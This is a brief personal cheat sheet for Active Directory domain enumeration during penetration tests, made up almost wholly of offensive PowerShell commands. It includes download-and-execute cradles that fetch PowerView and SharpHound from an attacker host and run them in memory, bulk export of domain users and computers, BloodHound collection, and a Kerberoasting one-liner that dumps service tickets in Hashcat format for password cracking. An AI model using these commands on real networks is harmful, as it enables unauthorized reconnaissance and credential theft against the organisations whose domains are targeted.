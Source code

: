 ```yaml
---
description: This is just a living document of things I have needed for domain enumeration
---
```


# Domain Enumeration

## POWERSPLOIT

Use the `dev` branch or [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/dev). For an already incredible cheatsheet, check out HarmJ0y's - [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

`IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')`

### Domain Users

`Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,mail,useraccountcontrol | Export-CSV users.csv`

### Domain Computers

`Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv`

### SPN Ticket Request

`Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation`

## BLOODHOUND

### Ingestor Launch

```text
IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.123/ps/SharpHound.ps1');
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData -SkipPing;
```

## 

